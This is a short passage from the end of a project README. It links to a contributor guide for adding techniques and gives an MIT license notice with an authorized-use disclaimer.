- [`src/techniques/README.md`](src/techniques/README.md) — adding a technique.

## License

MIT — see [`LICENSE`](LICENSE). Provided as-is, with no warranty, for
authorized use only.
